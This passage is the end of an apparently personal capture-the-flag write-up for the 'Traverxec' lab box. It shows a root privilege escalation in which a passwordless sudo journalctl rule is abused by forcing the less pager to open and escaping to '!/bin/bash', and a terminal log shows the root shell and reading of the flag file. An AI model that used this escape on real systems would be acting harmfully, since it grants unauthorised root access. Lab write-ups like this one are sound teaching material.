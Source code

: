 The interesting part is the last line. This mean that we have the `sudo`
permissions as `root` with no password (as it is in a script).
The `sudo` rights are well designed, we cannot change any argument in the line.
If we look at
[gtfobins for journalctl](https://gtfobins.github.io/gtfobins/journalctl/) we
see that the interesting part is to get the pager (which by default is `less`,
which allow to run bash command with `!`).

As the command specifiecaly allow us to only have 5 lines from the `journalctl`
output what we need to do is to get a tiny tiny windows to trigger the pager.

![Tiny window in order to trigger the pager](/media/2020.xx/traverxec_3.png)

From `less` we are able to run a bash command as `/bin/bash/`.

![Running a bash command from less](/media/2020.xx/traverxec_4.png)

We then get a root shell and are able to get the flag.

```
david@traverxec:~$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Wed 2019-11-27 05:44:37 EST, end at Wed 2019-11-27 06:15:38 EST
Nov 27 06:11:16 traverxec crontab[4166]: (www-data) LIST (www-data)
Nov 27 06:12:32 traverxec sudo[4554]: pam_unix(sudo:auth): authentication failur
...skipping...
Nov 27 06:12:41 traverxec sudo[4554]: www-data : user NOT in sudoers ; TTY=pts/1
Nov 27 06:13:05 traverxec su[4567]: pam_unix(su:auth): authentication failure; l
Nov 27 06:13:07 traverxec su[4567]: FAILED SU (to david) www-data on pts/6
!/bin/bash
root@traverxec:/home/david# cat /root/root.txt
9aa36a6<redacted>
```

# Wrapping up

This box is quit easy. The revershell is quit quick. The privilege escalation to
user might a pain as there is some rabbit holes (like this `Nowonly4me`
password) and the root part is quit CTFish but quick.

